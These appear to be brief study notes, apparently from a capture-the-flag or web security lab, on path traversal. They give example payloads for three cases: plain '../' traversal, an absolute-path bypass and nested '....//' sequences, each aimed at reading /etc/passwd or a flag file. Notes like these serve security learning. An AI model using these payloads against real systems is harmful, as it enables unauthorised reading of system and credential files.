 # 1. Reading arbitrary files via path traversal
If given var/www/html/images
- -> Step back to var/www/html/images../../../flag.txt
- -> Or var/www/html/images/../../../etc/passwd

# 2. Traversal blocked with absolute path bypass
If given var/www/images/?filename=a.jpg
- ->Use absolute path var/www/images/?filename=/etc/passwd

# 3. Traversal sequence stripped
Use nested traversal, e.g."....//" when server block "../"
-  ->e.g. GET /image/?filename=....//....//....//etc/passwd
